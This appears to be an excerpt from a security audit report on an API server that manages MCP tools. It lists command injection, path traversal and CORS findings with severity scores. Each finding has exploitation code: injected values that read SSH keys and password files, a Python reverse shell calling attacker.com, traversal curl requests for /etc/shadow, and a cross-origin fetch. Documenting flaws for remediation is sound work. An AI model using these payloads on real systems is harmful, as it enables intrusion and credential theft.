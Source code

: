 #### VULN-API-002: Command Injection in Tool Execution
- **CVSS v3.1:** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
- **CWE:** CWE-78 (OS Command Injection)
- **Location:** `/src/app/api/api_v1/endpoints/mcp_servers.py:738-816`
- **Exploitation:**
```python
# Command injection payload
payload = {
    "tool": "read_file",
    "arguments": {
        "path": "/etc/passwd; id; cat /root/.ssh/id_rsa"
    }
}

# Reverse shell payload
payload = {
    "tool": "write_file",
    "arguments": {
        "path": "/tmp/test.txt",
        "content": "test'; python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"attacker.com\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])' #"
    }
}
```

#### VULN-API-003: Path Traversal
- **CVSS v3.1:** 8.6 (AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N)
- **CWE:** CWE-22 (Path Traversal)
- **Vulnerable Code:** `/src/app/core/security.py:158`
```python
# Vulnerable sanitization
sanitized = path.replace('..', '').replace('//', '/')
# Bypass: ....// becomes ../
```
- **Exploitation:**
```bash
# Access sensitive files
curl "http://target:8000/api/v1/config/file?path=....//....//....//etc/shadow"
curl "http://target:8000/api/v1/config/file?path=%2e%2e%252f%2e%2e%252f%2e%2e%252fetc%252fpasswd"
```

### 2.2 CORS & CSRF Vulnerabilities

#### VULN-API-004: Overly Permissive CORS
- **CVSS v3.1:** 6.5 (AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N)
- **Details:** `allow_methods=["*"]` and `allow_headers=["*"]` with credentials
- **Exploitation:**
```javascript
// Malicious site can make authenticated requests
fetch('http://target:8000/api/v1/mcp-servers/', {
    credentials: 'include',
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({
        command: 'malicious-command'
    })
});
```
